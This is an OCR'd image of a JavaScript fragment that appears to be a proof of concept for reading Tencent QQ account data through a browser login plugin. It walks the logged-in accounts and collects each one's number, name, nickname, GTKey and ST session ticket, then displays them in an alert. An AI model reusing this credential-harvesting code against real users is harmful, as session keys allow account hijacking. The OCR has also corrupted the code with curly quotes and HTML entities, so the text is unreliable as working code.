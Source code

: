     if (B.length == 1) {
    B = “0″ + B
    }
    N += B
    }
    var M = {
     uin: a,
     name: b,
     type: O,
     face: Q,
     nick: S,
     key: N
    };
    var str = “QQinfo\r\n”+
        “uin:” + M[&#39;uin&#39;]+”\r\n”+
        “name:”+M[&#39;name&#39;]+”\r\n”+
        “type:”+M[&#39;type&#39;]+”\r\n”+
        “face:”+M[&#39;face&#39;]+”\r\n”+
        “nick:”+M[&#39;nick&#39;]+”\r\n”+
        “key:”+M[&#39;key&#39;]+”\r\n”;
    alert(str);
    q_aUinList[d] = M
   }
  } catch(Z) {}
  } else
  {
  try {
   var M = pt.sso;
   var L = M.InitPVA();
   if (L != false)
   {
    var I = M.GetPVACount();
    for (var W = 0; W &lt; I; W++)
    {
     var C = M.GetUin(W);
     var D = M.GetAccountName(W);
     var K = M.GetFaceIndex(W);
     var U = M.GetNickname(W);
     var P = M.GetGender(W);
     var V = M.GetUinFlag(W);
     var f = M.GetGTKey(W);
     var R = M.GetST(W);
    }
    var str = “QQinfo\r\n”+
        “uin:” + C +”\r\n”+
        “name:”+D+”\r\n”+
        “face:”+K +”\r\n”+
        “nick:”+U+”\r\n”+
        “key:”+f+”\r\n”;
    alert(str);
   }
  } catch(Z) {}
  }
 